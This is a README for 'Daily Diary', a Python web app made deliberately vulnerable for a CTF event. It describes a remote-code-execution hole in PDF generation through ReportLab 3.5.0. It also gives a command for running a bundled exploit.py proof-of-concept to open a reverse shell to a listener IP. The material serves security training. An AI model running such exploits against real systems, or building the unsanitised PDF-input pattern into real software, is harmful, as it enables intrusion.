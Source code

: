 # Daily Diary

**Daily Diary** is a web application written in Python using the ReportLab library. It is an intentionally vulnerable app created for educational purposes, particularly for cybersecurity training. The app contains a critical vulnerability related to user-controlled input in PDF generation, which can be exploited for malicious purposes.

This app was initially created by me for the WeShieldCyber CTF Event qualifiers, but I decided to make it public so that everyone can access it and learn from it.

---

## Features

| Feature            | Description                                           | Notes                              |
|--------------------|-------------------------------------------------------|------------------------------------|
| User Registration  | Allows users to register accounts.                   | Basic account creation.            |
| User Login         | Allows registered users to log in.                   | Session-based authentication.      |
| Diary Entry        | Users can create and save diary entries.             | Entries are rendered in pdf.       |
| PDF Generation     | Generates PDFs from user-submitted text.             | Exploitable vulnerability present. |

---

## Directory Structure

```plaintext
.
├── app.py              # Main application script.
├── docker-compose.yml  # Docker Compose file for containerized setup.
├── Dockerfile          # Dockerfile for building the app container.
├── exploit.py          # Solution RCE Exploit Script by '@sudo.dwg'
├── flag.txt            # File containing a secret flag (for CTF challenges).
├── LICENSE             # MIT License.
├── README.md           # This document.
├── requirements.txt    # Python dependencies.
└── templates
   ├── diary.html       # Template for diary entry page.
   ├── home.html        # Template for home page.
   ├── layout.html      # Base layout template.
   ├── login.html       # Template for login page.
   └── register.html    # Template for registration page.
```

---

## Setup

### Prerequisites

- Docker Engine installed on your system.

---

### Deployment Using Docker

1. **Clone the Repository:**
   ```bash
   git clone https://github.com/Rezy-Dev/Daily-Diary.git
   cd Daily-Diary
   ```

2. **Build the Docker Image:**
   ```bash
   docker compose up -d
   ```
   > After this, the app should be **running locally.** i.e `port 3003`

---

## Access the Application

1. Open your browser and navigate to `http://localhost:3003` (or the specified port in your Docker configuration).
2. Start exploring the features of the app.

---

## Note on Vulnerability

Since you are exploring this app for educational purposes, it’s important to understand the potential risks of insecure code practices. For instance, this app uses the ReportLab library (version `3.5.0`) for PDF generation. Improper sanitization of user input in this process can lead to unintended consequences. Learn more about this type of vulnerability in the following article:

- [ReportLab Vulnerabilities in Web Applications](https://rezydev.xyz/research/) - *i have not published the blog on this yet*
- Use `exploit.py` script on this repository using following switches for reverse shell. It's a PoC Script.

```bash
# python3 exploit.py http://ip:port username password docker0-interface listening-port
python3 exploit.py http://localhost:3003 rezydev rezydev 172.17.0.1 1337
```

---

## License

License? What is this, a driver's license? A drinking license? Do we even need one here???

Well, technically, yes. There is a [MIT License](https://github.com/Rezy-Dev/Daily-Diary/blob/main/LICENSE) (but don’t worry, it’s not as complicated as it sounds).
